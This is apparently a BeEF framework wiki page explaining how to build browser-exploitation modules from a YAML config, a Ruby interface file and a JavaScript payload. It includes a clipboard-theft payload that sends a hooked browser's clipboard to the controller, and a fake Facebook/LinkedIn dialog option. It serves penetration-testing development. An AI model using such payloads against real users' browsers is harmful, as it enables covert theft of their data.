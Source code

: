 ## Introduction

BeEF has been designed in a modular way, it is so very easy to create a new module and add it to BeEF.

Basically, modules are all stored in the [module](https://github.com/beefproject/beef/tree/master/modules) directory and are composed of three main files :
* **config.yaml** : The YAML configuration file which describe properties of the module
* **module.rb**  which allow integrating the module in the BeEF web interface
* **command.js** : the javascript "payload" which will be executed on the hooked browser

## <a name="config"/>YAML Configuration file 

The YAML configuration file embedds five informations :
* The name of the plugin
* The name of the author
* The description of the plugin
* The category of the plugin
* The browsers that can be targeted or not

For example, here is the config.yml of the [detect_firebug](https://github.com/beefproject/beef/blob/master/modules/browser/detect_firebug/config.yaml) plugin:
```yaml
beef:
    module:
        detect_firebug:
            enable: true
            category: "Browser"
            name: "Detect FireBug"
            description: "This module checks if the Mozilla Firefox Firebug extension is being use to inspect the current window."
            authors: ["bcoles"]
            target:
                 working: ["FF"]
                 not_working: ["All"]
```

Regarding list of browser, three arrays can be defined : **working**, **not_working** or **user_notify**. Browsers are defined by their main letters : **"FF"**, **"O"**, **"C"**, **"S"**, **"IE"** or **"All"**.

It is possible to define versions exploitable by precising the minimum and maximum version of each browser. The [get_visited_url](https://github.com/beefproject/beef/blob/master/modules/browser/get_visited_urls/config.yaml) plugin is a good example :
```yaml
target:
    working:
        IE:
            min_ver: 6
            max_ver: 7
        FF:
            min_ver: 3
            max_ver: 3
        C:
            min_ver: 1
            max_ver: 5
        S:
            min_ver: 3
            max_ver: 3
        O:
            min_ver: 1
            max_ver: 10
    not_working: ["All"]
```

You can find more detailed information on [[this page|Command-Module-Config]].

## <a name="modulerb"/>Interface with rails web GUI

Next, you need to write the _module.rb_ file which will allow to be included in the BeEF interface. Don't Panic, you won't need to be a rails guru to write such file, BeEF defined high level methods and objects to do this.

### Basic architecture

Basically, your file will look like this :
```ruby
class Your_module < BeEF::Core::Command

    # This method allows defining the options proposed to the user in the interface
    def self.options
    end

    # This method will be called before sending the payload
    def pre_send
    end

    # This method will be called when BeEF will receive an answer from the hooked browser
    def post_execute
    end
end
```

### Defining data types

The **self.options** method should return an array which defines data proposed to the user. Here is an example with different fields taken from existing modules :

```ruby
  def self.options
    return [{
      'name'=>'key_paths', 
      'ui_label' => 'Key(s)',
      'description' => 'Enter registry keys. Note: each key requires its own line', 
      'type'=>'textarea', 
      'width' => '500px', 
      'height' => '350px', 
      'value'=>'HKLM\\SYSTEM\\CurrentControlSet\\Control\\SystemInformation\\SystemProductNam'
    },
    {
      'name' => 'iFrameSandbox',
      'ui_label' => 'Sandbox', 
      'type' => 'checkbox',
      'checked' => 'checked' 
    },
    {
      'name' => 'choice', 
      'type' => 'combobox',
      'ui_label' => 'Dialog Type',
      'store_type' => 'arraystore', 
      'store_fields' => ['choice'], 
      'store_data' => [['Facebook'],['LinkedIn'],['Generic']], 
      'valueField' => 'choice', 
      'value' => 'Facebook', 
      editable: false, 
      'displayField' => 'choice', 
      'mode' => 'local', 
      'autoWidth' => true 
    }]
  end
```

More detailed information on data types can be found [[here|Form-Data-Types]]

### Save returned information

It is possible to save information gathered by the script in the list of information on the hooked browser. This action should be done in the **post_execute** function, for example here is the source code of the [browser_fingerprint](https://github.com/beefproject/beef/blob/master/modules/browser/browser_fingerprinting/module.rb) plugin :

```ruby
  def post_execute
    content = {}
    content['browser_type'] = @datastore['browser_type'] if not @datastore['browser_type'].nil?
    content['browser_version'] = @datastore['browser_version'] if not @datastore['browser_version'].nil?
    if content.empty?
      content['fail'] = 'Failed to fingerprint browser.'
    end
    save content
  end
```

* **@datastore** is a dictionnary of information returned by the javascript payload
* The function define a dictionnary and save it with the **save** function.

## <a name="javascriptpayload"/>Javascript payload

The last mandatory file is the javascript payload **command.js**. The javascript payload should be included in a function called by **beef.execute**. Except that you can do anything you want here.

The following command should be used to return information to the BeEF controller :
```erb
beef.net.send("<%= @command_url %>", <%= @command_id %>, "data");
```

The BeEF javascript API already includes a lot of interesting features and embed jQuery. You can see details on this API [[here|Javascript-API]]. If you think that some functions of your module may improve the global API, look the [[relevant section|Javascript-API#wiki-improve]].

Here is an interesting example taken from [clipboard_theft](https://github.com/beefproject/beef/blob/master/modules/host/clipboard_theft/command.js) :

```Javascript
beef.execute(function() {
  if (clipboardData.getData("Text") !== null) {
    beef.net.send("<%= @command_url %>", <%= @command_id %>, "clipboard="+clipboardData.getData("Text"));
  } else {
    beef.net.send("<%= @command_url %>", <%= @command_id %>, "clipboard=clipboardData.getData is null or not supported.");
  }
});
```

## Other useful examples

### Bind an external object to a given URI

You can bind an external object to a defined URI in order to use it from the hooked browser :

```ruby
class Your_module < BeEF::Core::Command
    def pre_send
        BeEF::Core::NetworkStack::Handlers::AssetHandler.instance.bind('/path/to/file','/uri','extension')
    end

    def post_execute
        BeEF::Core::NetworkStack::Handlers::AssetHandler.instance.unbind('/uri.extension')
    end 
end
```

### Use BeEF configuration information

You can use information of the BeEF configuration in your module.rb :

```ruby
class Your_module < BeEF::Core::Command
    def self.options
        configuration = BeEF::Core::Configuration.instance
        hook_uri = "http://#{configuration.get("beef.http.host")}:#{configuration.get("beef.http.port")}/demos/report.html"
        return [
            {'name' => 'url', 'ui_label'=>'URL', 'type' => 'text', 'width' => '400px', 'value' => hook_uri },
        ]
    end 
end
````

## What's now ?

If you think that your module can be usefull to other people, join the BeEF community on github, fork the beef repository, upload your module and create a new issue for proposing it. We like people with new ideas :).

## References

* [[Reference Page on config.yml file|Command-Module-Config]]
* [[Reference Page on format type for module.rb file|Form-Data-Types]]

***

[[Previous|BeEF-Console]] | [[Next|WebRTC-Extension]]